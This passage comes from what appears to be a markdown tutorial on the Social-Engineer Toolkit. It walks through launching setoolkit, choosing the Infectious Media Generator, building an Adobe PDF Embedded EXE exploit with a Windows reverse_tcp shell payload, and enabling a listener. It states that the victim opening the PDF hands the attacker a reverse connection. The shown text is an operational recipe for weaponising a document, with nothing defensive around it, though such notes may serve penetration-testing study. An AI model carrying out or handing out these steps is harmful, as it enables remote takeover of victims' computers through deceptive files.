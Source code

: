                 - Provide the IP of your payload listener (same as your machine’s IP).
                - Choose a port for the listener (ensure no other service is using this port).
            8. **Enable Listener**:
                - Confirm to enable the listener, which will start listening for incoming connections.
            
            Once the victim opens the malicious PDF, you will receive a reverse connection to your machine.
            
            - Summary of Commands
                1. Launch SET:
                    
                    ```bash
                    sudo setoolkit
                    ```
                    
                2. Navigate to Infectious Media Generator:
                    - Choose option `1` for "Social Engineering Attacks"
                    - Choose option `3` for "Infectious Media Generator"
                3. Select Fileformat Exploit:
                    - Press `1` for "Fileformat exploits"
                4. Enter Reverse Connection IP:
                    
                    ```
                    Enter the IP address for the reverse connection: <your_IP_address>
                    
                    ```
                    
                5. Select Adobe PDF Embedded EXE Exploit:
                    
                    ```
                    Choose the exploit: 1 (Adobe PDF Embedded EXE)
                    
                    ```
                    
                6. Use Own PDF or Template:
                    
                    ```
                    Use your own PDF or template: <choose>
                    
                    ```
                    
                7. Select Payload:
                    
                    ```
                    Choose the payload: 1 (Windows/shell/reverse_tcp)
                    
                    ```
                    
                8. Enter Payload Listener IP and Port:
                    
                    ```
                    Enter IP address for the payload listener: <your_IP_address>
                    Enter port for the listener: <your_port_number>
                    
                    ```
                    
                9. Enable Listener:
                    
                    ```
                    Enable the listener? (yes/no): yes
                    
                    ```
                    